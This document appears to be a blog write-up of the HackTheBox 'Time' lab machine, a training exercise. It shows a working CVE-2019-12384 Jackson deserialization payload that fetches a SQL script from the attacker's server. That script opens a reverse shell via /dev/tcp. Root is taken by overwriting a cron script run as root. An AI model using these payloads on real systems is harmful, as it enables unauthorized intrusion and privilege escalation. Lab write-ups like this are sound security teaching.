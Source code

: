```yaml
---
title: "Write-up: HackTheBox - Time"
date: 2021-04-03 07:03:36 +0530
tags: [linux]
categories: boxes
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
excerpt: "Medium rated box, being more on the easier side of it that involves exploiting a CVE to get a shell and editing a script that is run as root for priv esc."
---
```


# Overview
This is a brief walkthrough for the box [Time](https://app.hackthebox.eu/machines/Time) from [HackTheBox](https://www.hackthebox.eu) with some remarks on [file/directory permissions](#permissions) in the appendix.
# Getting a shell on the box, user flag
[![web](/assets/images/time/web_page.png){:height="360px" width="180px"}{: .align-right}](/assets/images/time/web_page.png)
As only [port 22 and 80 are open](#nmap) we take a look at the website and find an online beautifier and validator.
Clicking around will soon reveal an error message. For example, entering a single quote and selecting `Validate (beta!)` triggers an error message which contains `com.fasterxml.jackson.core.JsonParseException`.
Researching this error for a bit leads us to [CVE-2019-12384](https://github.com/jas502n/CVE-2019-12384) and following the steps outlined on the github page allows us to execute arbitrary code to get a shell on the box.\\
First we need to create the `.sql` file which we will then host via the python http server. In this sql file, we simply need to change the argument of `SHELLEXEC()` in the last line to what we wish to run:

```sql
$ cat reverse.sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('sh -i >& /dev/tcp/10.10.14.6/1234 0>&1')
```
To retrieve and execute this file we then need to slightly adjust the serialized payload that's passed to the `test.rb` file in the github page: 
```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.6:8000/reverse.sql'"}]
```
Pasting it into the `Validate (beta!)` field after setting up a local http server using python and a netcat listener:
```console
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.214 - - [09/Mar/2021 10:58:53] "GET /reverse.sql HTTP/1.1" 200 -

 $ nc -lnvp 1234
 Ncat: Version 7.91 ( https://nmap.org/ncat )
 Ncat: Listening on :::1234
 Ncat: Listening on 0.0.0.0:1234
 Ncat: Connection from 10.10.10.214.
 Ncat: Connection from 10.10.10.214:55502.
 sh: 0: can't access tty; job control turned off
 $ ls
 css
 fonts
 images
 index.php
 js
 vendor
 $ whoami
 pericles
 $ cd /home/pe*
 $ ls
 snap
 user.txt
```
we notice command execution and get a shell back as `pericles`.
We can now collect the user flag.

# Root
First I upgrade to a ssh shell by echoing my public ssh key into the `~/.ssh/authorized_keys`. As `sudo -l` requires a password we do not have and the home directory of pericles is pretty much empty I upload [pspy](https://github.com/DominicBreuker/pspy) to see if any interesting processes are running, and indeed there are:
```console
pericles@time:~$ sudo -l
[sudo] password for pericles:
Sorry, try again.
pericles@time:~$ ./pspy64
[snip]
CMD: UID=0    PID=15551  | zip -r website.bak.zip /var/www/html
CMD: UID=0    PID=15528  | mv website.bak.zip /root/backup.zip
```
The user with UID 0 (root) zips `/var/www/html` to `/website.bak.zip` and moves it into the root folder, which is quickly confirmed by:
```console
$ pericles@time:/var/www/html$ while true; do ls / | grep website; done
website.bak.zip
```
I thought for a few minutes if there's a path vulnerability or anything I could put into the html folder to exploit but as the zip file doesn't seem to get extracted that shouldn't be possible. I then noticed another command thats run by root:
```bash
CMD: UID=0    PID=15548  | /bin/bash /usr/bin/timer_backup.sh
```
I started by looking at the file's permissions and to my surprise the file is owned by our user - which is rather unusual, because we cannot create files in `/usr/bin` - giving us full access to the file. More on that [here](#permissions).
```console
$ ls -al time*
-rwxr-xr-x 1 root     root     14720 Apr 21  2017 time
-rwxr-xr-x 1 root     root     43080 Apr 22  2020 timedatectl
-rwxr-xr-x 1 root     root     43800 Sep  5  2019 timeout
-rwxrw-rw- 1 pericles pericles    88 Mar  9 16:15 timer_backup.sh
```
For simplicity I simply collected the root flag via `cat` but we really have all options here, as the file is executed as root:
```console
$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

[replaced by]

$ cat /usr/bin/timer_backup.sh
#!/bin/bash
cat /root/root.txt > /tmp/.flag

pericles@time:/tmp$ cat .flag
258535e5056435406f3d85114a2819b8
```
# Appendix
## <a name="permissions"></a> About file and directory permissions
Interestingly enough `timer_backup.sh` is owned by user and group `pericles`:
```console
-rwxrw-rw- 1 pericles pericles    88 Mar  9 16:15 timer_backup.sh

So reading the permissions from left to right: rwx rw- rw- 
First three bits -> owner 		-> read, write and execute
 Next three bits -> group 		-> read and write
 Last three bits -> everybody else 	-> read and write
```
Interestingly enough, because `/usr/bin/` is not a directory we are allowed to create files in:
```console
pericles@time:/usr/bin$ touch file
touch: cannot touch 'file': Permission denied
```
So probably the file was created here by root and he then changed the ownership and group to `pericles`. \\
As we have the write bit set on the _file_ but not on its parent directory we can therefore make changes to the content of the file but not to the file itself:
```console
pericles@time:/usr$ ls -l
total 96
drwxr-xr-x   2 root root 36864 Feb  9 14:42 bin
[snip]

pericles@time:/usr$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```
As we neither are root nor in the root group, the execute bit - which allows us to enter the directory - and the read bit - which allows us to list the contents of the directory - are set for us. Thus we are not allowed to create new files nor remove existing ones even if these files are owned by us (which allows us to set file permissions however we like) because that would change the content of the directory and for this we need the write bit of the parent directory to be enabled - which can be done using `chmod o+w /usr/bin`:
```console
pericles@time:/usr/bin$ rm timer_backup.sh
rm: cannot remove 'timer_backup.sh': Permission denied

root@time:/# chmod o+w /usr/bin/  # write bit for users who aren't the owner/in the group of the file
chmod o+w /usr/bin/		

pericles@time:/usr/bin$ ls -al /usr/
total 104
drwxr-xr-x  14 root root  4096 Apr 23  2020 .
drwxr-xr-x  20 root root  4096 Apr  3 10:10 ..
drwxr-xrwx   2 root root 36864 Apr  3 10:09 bin

pericles@time:/usr/bin$ rm timer_backup.sh
pericles@time:/usr/bin$
``` 
## <a name="nmap"></a> Nmap scan
```console
$ sudo nmap -p- 10.10.10.214
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 04:44 EDT
Nmap scan report for 10.10.10.214
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.68 seconds
```
